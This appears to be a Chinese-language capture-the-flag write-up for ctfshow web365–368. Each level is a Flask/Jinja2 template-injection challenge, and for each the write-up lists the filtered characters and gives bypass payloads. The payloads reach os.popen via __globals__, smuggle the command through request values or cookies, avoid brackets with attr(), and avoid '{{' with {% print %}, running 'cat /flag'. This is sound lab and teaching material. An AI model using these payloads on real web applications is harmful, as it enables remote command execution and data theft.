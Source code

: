 fuzz 字典跑一遍，发现单双引号、args、\[\]被过滤

**方法一：values传参** values 没有被过滤

```handlebars
`?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag`
```

**方法二：cookie传参**

```handlebars
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
Cookie:c=cat /flag
```

##### web366

过滤了单双引号、args、中括号\[\]、下划线

传参绕过检测

values依旧

```handlebars
?name={{(lipsum|attr(request.values.a)).os.popen(request.values.c).read()}}&a=__globals__&c=cat /flag
因为后端只检测 name 传参的部分，所以其他部分就可以传入任意字符，和 rce 绕过一样
```

`attr()` 通常用于从对象中获取属性或调用方法，而 `get()` 则用于从字典中安全地获取值，并提供一个默认值来避免 KeyError 错误。在上下文中，如果是在 Flask 的模板中使用 `attr()`，通常是用来获取对象的属性值；而 `get()` 则是 Python 中字典的常用方法，用于获取键对应的值。

cookie也是

```handlebars
?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
​
cookie:a=__globals__;b=cat /flag
```

##### web367

过滤了单双引号、args、中括号\[\]、下划线、os

```handlebars
`?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag`
```

##### web368

过滤单双引号、args、中括号\[\]、下划线、os、{{

**{%绕过**

只过滤了两个左括号，没有过滤 {%

```python
`?name={%print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}&a=__globals__&b=os&c=cat /flag`
```
